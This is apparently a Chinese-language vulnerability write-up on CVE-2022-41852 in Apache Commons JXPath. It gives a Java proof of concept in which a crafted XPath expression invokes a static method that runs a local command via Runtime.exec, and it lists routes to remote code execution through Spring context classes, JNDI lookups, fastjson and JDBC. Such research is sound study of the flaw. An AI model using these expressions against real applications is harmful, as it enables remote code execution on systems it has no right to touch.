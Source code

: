 # CVE-2022-41852

看漏洞描述可以看出由于xpath表达式的问题造成的漏洞

![](img/1.png)

这一点其实来源官方的一个feature

https://commons.apache.org/proper/commons-jxpath/users-guide.html

![](img/2.png)

可以看到这里的描述似乎是可以执行一些任意代码具体我们可以跟进看看

简单写个demo



Test.java

```java
import org.apache.commons.jxpath.JXPathContext;

public class Test {
    public static void main(String[] args) {
        JXPathContext context = JXPathContext.newContext(null);
        context.getValue("com.example.springdemo.calc.calc()");
    }
}
```

Calc.java

```java
package com.example.springdemo;

public class calc {
    public static void calc(){
        try {
            Runtime.getRuntime().exec("open -na Calculator");
        }catch (Exception e ){

        }
    }
}
```

可以看到这部分的处理在org.apache.commons.jxpath.ri.compiler.ExtensionFunction当中这里也不浪费太多篇幅，解析表达式的时候会调用到org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue

里面通过Function function = context.getRootContext().getFunction(this.functionName, parameters);去获取一些方法，方法限制有两个，要么有构造函数，要么是一些静态方法![](img/3.png)

## 对于实例化我们能做什么

spring当中有两个类构造函数就能加载远程配置可以rce，

- org.springframework.context.support.ClassPathXmlApplicationContext
- org.springframework.context.support.FileSystemXmlApplicationContext

## 对于静态方法我们能做什么

jndi当中有静态方法，javax.naming.InitialContext.doLookup

一些常见库比如fastjson出发json反序列化

当然还有jdbc攻击也可以帮助我们撕开一条漏洞的口子

当然肯定还有其他的攻击手法毕竟jre当中有很多类这里只是举一些例子而已，对于学习足够了
